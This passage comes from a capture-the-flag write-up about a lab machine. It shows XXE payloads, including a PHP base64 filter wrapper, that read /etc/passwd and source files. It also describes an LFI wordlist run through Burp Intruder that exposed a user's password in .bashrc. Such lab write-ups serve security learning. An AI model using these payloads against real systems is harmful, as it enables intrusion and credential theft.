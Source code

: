 ![image8.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE8.png)

Another success!

Our passwd file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
bind:x:126:133::/var/cache/bind:/usr/sbin/nologin
```
Looks like there is only one user - saket.
Because we are working with data over the web, URL encoding and encoding in general can play havok with our attempts to include files. So looking further down the XXE reference page there are some handy PHP wrappers that will base64 encode file contents for us.

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
even potentially run PHP code.
```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]
```

So we went fuck it and took a linux LFI cheatsheet list from [github](https://github.com/hussein98d/LFI-files/blob/master/list.txt), did some magic to it, `replaced [USERNAME] with saket, replaced the /root ones with /home/saket/ because ~ wont work`, and dumped it into a sniper intruder and just let it run. Eventually we got back some results.

We have the .bashrc file in sakets home directory.

![image9.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE9.png)

Which has some a password for us (to tie to the user we are looking at)

```
username: saket
password: Saket!#$%@!!
```

And another interesting result was `/opt/server.py` We found this by guessing that the user would have installed optional apps to `/opt/` and then the information on how tornado server is setup. And tbh a bit of luck which is always nice :)

![image10.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE10.png)

Lets try them on that site that requires auth on port 9999
```
http://hackerkid.blackhat.local:9999
```
